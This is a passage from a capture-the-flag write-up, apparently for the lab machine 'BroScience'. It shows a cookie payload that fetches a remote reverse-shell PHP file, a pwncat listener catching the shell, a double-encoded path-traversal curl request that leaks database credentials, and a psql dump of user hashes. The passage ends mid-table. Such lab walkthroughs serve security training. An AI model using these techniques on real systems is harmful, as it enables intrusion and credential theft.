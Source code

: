 * Paste the payload created Avatar in a cookie manager for the User-Prefs
* Prepare a revese-shell.php and in the same directory _python3 -m http.server port_
* In another terminal we just listen with pwncat for the port 1234
* When we change the theme it triggers the payload, loads the remote reverse-shell and conects to our machine on port 1234

```
python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.195 - - [17/Jan/2023 17:53:47] "GET /reverse-shell.php HTTP/1.0" 200 -```

```
``` bash
❯ ~/.local/bin/pwncat-cs 0.0.0.0 1234
/home/mac/.local/lib/python3.10/site-packages/paramiko/transport.py:178: CryptographyDeprecationWarning: Blowfish has been deprecated
  'class': algorithms.Blowfish,
[17:53:39] Welcome to pwncat 🐈!                                                           __main__.py:164
[17:54:44] received connection from 10.10.11.195:38298                                          bind.py:84
[17:54:45] 0.0.0.0:1234: upgrading from /usr/bin/dash to /usr/bin/bash                      manager.py:957
[17:54:56] 10.10.11.195:38298: registered new host w/ db                                    manager.py:957
(local) pwncat$                                                                                           
(remote) www-data@broscience:/$ 
```
* So, got the remote shell
* Now it's time for the priviledge escalation

```
REMEMBER THIS:
❯ curl -k 'https://broscience.htb/includes/img.php?path=..%252F..%252F..%252F..%252F..%252F..%252F..%252Fvar%252Fwww%252Fhtml%252Fincludes%252Fdb_connect.php'
<?php
$db_host = "localhost";
$db_port = "5432";
$db_name = "broscience";
$db_user = "dbuser";
$db_pass = "RangeOfMotion%777";
$db_salt = "NaCl";

```

``` bash
(remote) www-data@broscience:/bin$ ls | grep *sql      
psql
(remote) www-data@broscience:/bin$                                                   psql -h localhost -d broscience -U dbuser -W
Password: 
psql (13.9 (Debian 13.9-0+deb11u1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

broscience=> select * from users;
WARNING: terminal is not fully functional
-  (press RETURN) id |   username    |             password             |            email             |         activation
_code          | is_activated | is_admin |         date_created          
----+---------------+----------------------------------+------------------------------+-------------------
---------------+--------------+----------+-------------------------------
  1 | administrator | 15657792073e8a843d4f91fc403454e1 | administrator@broscience.htb | OjYUyL9R4NpM9LOFP0
```